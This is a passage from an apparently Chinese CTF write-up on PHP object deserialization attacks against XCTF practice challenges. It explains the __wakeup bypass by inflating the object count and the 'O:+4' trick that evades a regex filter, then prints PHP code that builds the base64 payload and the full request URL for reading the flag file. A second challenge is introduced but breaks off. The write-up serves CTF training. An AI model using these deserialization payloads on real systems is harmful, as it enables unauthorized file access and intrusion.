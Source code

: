 - 对 Demo 这个类进行序列化，base64 加密之后，赋值给 var 变量进行 get 传参就行了

- 如果一个类定义了 wakup()和 destruct()，则该类的实例被反序列化时，会自动调用 wakeup(), 生命周期结束时，则调用 desturct()

- 在 PHP5 < 5.6.25， PHP7 < 7.0.10 的版本存在 wakeup 的漏洞。当反序列化中 object 的个数和之前的个数不等时，wakeup 就会被绕过。

- 正则匹配可以用+号来进行绕过，也就是 O:4，我们用 O:+4 即可绕过

- isset() 函数用于检测变量是否已设置并且非 NULL。

- 如果已经使用 unset() 释放了一个变量之后，再通过 isset() 判断将返回 FALSE。

- 若使用 isset() 测试一个被设置成 NULL 的变量，将返回 FALSE。

- 同时要注意的是 null 字符（"\0"）并不等同于 PHP 的 NULL 常量。

- PHP 版本要求: PHP 4, PHP 5, PHP 7

在源代码之后加调用代码：

```
$a = new Demo("fl4g.php");
$a = serialize($a);
echo $a;
//O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
$a = str_replace('O:4', 'O:+4', $a);
$a = str_replace('1:{', '2:{', $a);
echo $a;
//O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
echo base64_encode($a);
//TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

这里有个坑，注意代码的第四行`file`变量为`private`私有变量，所以序列化之后的字符串开头结尾各有一个空白字符（即%00），字符串长度也比实际长度大 2，如果将序列化结果复制到在线的`base64`网站进行编码可能就会丢掉空白字符，所以这里直接在`php`代码里进行编码。类似的还有`protected`类型的变量，序列化之后字符串首部会加上`%00*%00`

最后直接访问`你的靶场地址/index.php?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`

即可得到`flag`

![][7]

# ctf 例子 2

来自攻防世界 -> web 高手进阶区 -> [unserialize3][8]

![][9]

```
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

打开网站，就这么一段代码，需要绕过`__weakup`函数，结果`?code=`的提示，需要将序列化之后的值传给`code`


[1]: https://code.visualstudio.com/Download
[2]: https://www.xp.cn/
[3]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_164636.png
[4]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_174322.png
[5]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5409&page=1
[6]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171426.png
[7]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171520.png
[8]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1
[9]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172032.png
[10]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172109.png
[11]: https://www.ctfhub.com/#/
[12]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201225_222921.png
[13]: https://www.bilibili.com/video/av53361627?p=1&t=476
[14]: http://keac.club/2020/05/11/2020%E7%BD%91%E9%BC%8E%E6%9D%AFweb/
[15]: https://www.cnblogs.com/Cl0ud/p/12874458.html
[16]: https://mp.weixin.qq.com/s/ZKwR4fZU-j1QXcQBTFF7PQ